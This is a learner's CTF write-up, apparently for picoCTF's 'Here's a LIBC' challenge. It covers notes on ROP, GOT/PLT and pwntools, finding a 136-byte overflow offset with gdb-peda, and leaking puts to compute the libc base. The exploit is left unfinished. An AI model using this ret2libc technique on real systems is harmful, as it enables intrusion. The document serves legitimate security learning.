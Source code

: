 # Lesson Learn
- `LIBC`
- `pwninit`
- `readelf`
    - `-s`  
        -s or --symbols: display the symbol table.
- `PIE` on Linux Binary
    - Position-Independent Executables
    - vs ASLR
- `Makefile`
- `ROP`
    - ret2main
    - system() and `Stack Alighment`
        - https://uchan.hateblo.jp/entry/2018/02/16/232029
        - https://www.ctfnote.com/pwn/linux-exploitation/rop/stack-alignment
- `ROPgadget`
- `GOT` and `PLT`
    - https://keichi.dev/post/plt-and-got/
- `gdb-peda`
    - pattern_create
    - pattern_offset
- `pwntools`
    - `recv(6)`  
        comination of `recvline()`, trim and padding
        ```python
        a = recvline()
        print(len(a))
        # 6
        recv(6).ljust(8,b"\x00")
        ```
    - type: `bytes` and `len()`
        You can use len() to bytes value.  
        `len()` can adjust to each type and calculate a length of value as the type.  
        ```python
        a = 123
        b ="123"
        c = 0x123
        d = b'123\x89\xe3\x81\xad456'

        # print("int : " + len(a)) #error
        print("string : " + str(len(b)))
        # print("hex : " + str(len(c))) #error
        print("bytes : " + str(len(d)))

        #string : 3
        #bytes : 10
        ```
    - `u64`  
        In pwntools, u64 refers to an "unpack 64-bit" operation, and it's used to convert a byte string (sequence of 8 bytes) into an unsigned 64-bit integer.  
        The `u64` function is part of pwntools' utility functions for binary data manipulation.  
        https://docs.pwntools.com/en/stable/util/packing.html
        - why `64`?  
            This is likely the reason.
            ```zsh
            $ file vuln_patched
            vuln_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.27.so, for GNU/Linux 3.2.0, BuildID[sha1]=e5dba3e6ed29e457cd104accb279e127285eecd0, not stripped
            ```
        - why `.ljust(8,b"\x00")`  
            This is because that "unpack" requires a buffer of 8 bytes.
            ```python
            ## debug
            # res = p.recvline()
            # print(res)           # b'0z\x8e\x99\xcd\x7f\n'
            # print(len(res))      # 7
            
            res = p.recv(6)
            print(res)                                          # b'0z\x8e\x99\xcd\x7f'
            print(res.ljust(8,b"\x00"))                         # b'0z\x8e\x99\xcd\x7f\x00\x00'
            print(u64(res.ljust(8,b"\x00")))                    # 140521021274672 ... 64 bit integer
            # print(u64(res.ljust(9,b"\x00")))                  # error: unpack requires a buffer of 8 bytes
            # print(u64(res.ljust(16,b"\x00")))                 # error: unpack requires a buffer of 8 bytes
            # print("debug" + u64(res.ljust(8,b"\x00")))        # error: str + byte
            print("debug : " + hex(u64(res.ljust(8,b"\x00"))))  # 0x7fcd998e7a30
            ```

# Write Up
1. fix binary
    ```zsh
    $ ./vuln
            Inconsistency detected by ld.so: dl-call-libc-early-init.c: 37: _dl_call_libc_early_init: Assertion 'sym != NULL' failed!
    $
    $ ldd ./vuln
            linux-vdso.so.1 (0x00007f88c830f000)
            libc.so.6 => ./libc.so.6 (0x00007f88c7e00000)
            /lib64/ld-linux-x86-64.so.2 (0x00007f88c8311000)
    $ strings ./libc.so.6 | grep -i version
    $ pwninit --bin ./vuln --libc ./libc.so.6
    $ ldd ./vuln_patched 
            linux-vdso.so.1 (0x00007ffeaabf6000)
            libc.so.6 => ./libc.so.6 (0x00007f8fb4600000)
            ./ld-2.27.so => /lib64/ld-linux-x86-64.so.2 (0x00007f8fb4aa3000)
    ```
    - https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067
    - https://sh0ebill.hatenablog.com/entry/2022/09/28/215346

2. check binary
    ```zsh
    $ checksec --file=./vuln_patched --format=json | jq .
    ```
    ```json
        {
            "./vuln_patched": {
                "relro": "partial",
                "canary": "no",
                "nx": "yes",
                "pie": "no",
                "rpath": "no",
                "runpath": "yes",
                "symbols": "yes",
                "fortify_source": "no",
                "fortified": "0",
                "fortify-able": "0"
            }
        }
    ```

3. ghidra

4. gdb-peda
    ```zsh
    # command test
    gdb-peda$ continue
    gdb-peda$ stack
    gdb-peda$ info register
    gdb-peda$ info break
    gdb-peda$ pattern_create 200 # buffer over flow
    gdb-peda$ pattc 200
    gdb-peda$
    # start analize
    gdb-peda$
    gdb-peda$ break *0x4006ef # scanf
    gdb-peda$ break *0x400770 # return
    gdb-peda$ start
    gdb-peda$ pattern_create 200
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
    gdb-peda$ c
    # copy-and-paste
    ...
    [-------------------------------------code-------------------------------------]
    0x40076e <do_stuff+150>:     nop
    0x40076f <do_stuff+151>:     leave
    => 0x400770 <do_stuff+152>:     ret
    0x400771 <main>:     push   rbp
    0x400772 <main+1>:   mov    rbp,rsp
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffdcc8 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0x7fffffffdcd0 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0x7fffffffdcd8 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0x7fffffffdce0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    ...
    gdb-peda$ pattern_offset AAQAAm
    AAQAAm found at offset: 136
    ```

5. think about ROP

6. pwntools
    - p64 and u64
        "p" stands for packing and "u" stands for unpacking.
        ```zsh
        p8(0)
        b'\x00'
        p32(0xdeadbeef)
        b'\xef\xbe\xad\xde'
        p32(0xdeadbeef, endian='big')
        b'\xde\xad\xbe\xef'
        with context.local(endian='big'): p32(0xdeadbeef)
        b'\xde\xad\xbe\xef'
        ```
    - calculate static offset
        ```zsh
        $ readelf -s ./libc.so.6 | grep puts
        191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
        422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
        496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
        678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
        1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
        ```
        pwntools
        ```python
        ...
        # addr...
        #   A true address of symbols['put'] that is changed every time the program is run.
        # libc.symbols['puts']...
        #   An address of symbols['put'] that is calculated from a library(now, "./libc.so.6") before the program is run.
        #   A command "readelf" can see the address.
        #       libc.symbols['puts'] ... 0x80a30 from readelf
        addr = u64(res.ljust(8,b"\00"))
        print(hex(addr))                     # 0x7f01983f5a30

        print(hex(libc.symbols['puts']))     # 0x80a30

        libc_base=addr-libc.symbols['puts']
        print(hex(libc_base))                # 0x7f0198375000
        ...
        ```
    - receive result of the first ROP
        the result is here.  
        ```python
        res = p.recvline()
        print(res)                  # b'0j\xee\x95\x9e\x7f\n'
        print(len(res))             # 7
        print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\n\x00'
        ```
        However, I don't need the last bytes for a new line which is `\n`.  
        So I trim it.
        ```python
        res = p.recv(6)
        print(res)                  # b'0j\xee\x95\x9e\x7f'
        print(len(res))             # 6
        print(res.ljust(8,b"\x00")) # b'0j\xee\x95\x9e\x7f\x00\x00'
        ```

7. think about the next ROP


# Ref  
- https://papadoxie.github.io/Writeups/PicoCTF/HeresALIBC/HeresALIBC.html  
- https://cashitsuki.com/posts/2021-12-15-pwninit-manually/  
- https://qiita.com/Hashibirokou/items/8d76fc88bd6daaf8f067  
- https://ret2home.github.io/blog/CTF/picoctf-2021/pwn/hereslibc/
 -https://sh0ebill.hatenablog.com/entry/2022/09/08/211727
- https://qiita.com/tobira-code/items/7ae54a22158aea1a8579  
- https://zenn.dev/kusunoki576/articles/a785672cbc4e0a